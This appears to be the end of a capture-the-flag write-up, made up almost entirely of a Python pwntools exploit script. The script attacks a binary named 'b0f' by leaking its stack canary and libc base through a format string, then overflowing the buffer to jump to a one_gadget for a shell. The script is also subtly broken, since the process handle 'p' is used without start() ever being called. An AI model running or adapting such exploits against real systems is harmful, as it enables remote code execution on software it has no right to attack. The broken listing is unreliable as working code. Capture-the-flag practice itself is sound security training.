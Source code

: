 We now have everything we need to solve the challenge. Here is the exploit script:
```python
#!/usr/bin/env python2

from pwn import *

# stack canary is at offset 11 for format string
# It is at offset 24 for buffer overflow

HOST, PORT = '68.183.158.95', 8991
BINARY = './b0f'

elf = ELF(BINARY)
context.arch = 'amd64'

if not args.REMOTE:
    libc = elf.libc
else:
    libc = ELF('./libc.so.6')

def start():
    if not args.REMOTE:
        print "LOCAL PROCESS"
        return process(BINARY)
    else:
        print "REMOTE PROCESS"
        return remote(HOST, PORT)

# Leak stack canary (offset 11) and the libc address (offset 3)
p.sendline('%11$lx-%3$lx')
p.recvline()
leaks = p.recvline()
stack_canary = int(leaks.split('-')[0], 16)
libc.address = int(leaks.split('-')[1][:-1], 16) - 0xf72c0

log.info('canary: ' + hex(stack_canary))
log.info('libc base: ' + hex(libc.address))

system = libc.symbols['system']
bin_sh = next(libc.search('/bin/sh'))
one_gadget = libc.address + 0x45216 # 0x4526a, 0xf02a4, 0xf1147

log.info('system: ' + hex(system))
log.info('bin sh: ' + hex(bin_sh))
log.info('one_gadget: ' + hex(one_gadget))

payload = 'A'*24 # Write up to the stack canary
payload += p64(stack_canary) # Ensure we don't change the stack canary
payload += 'B'*8 # Overwrite RBP
payload += p64(one_gadget) # Overwrite RIP

p.sendline(payload)

p.interactive()
```
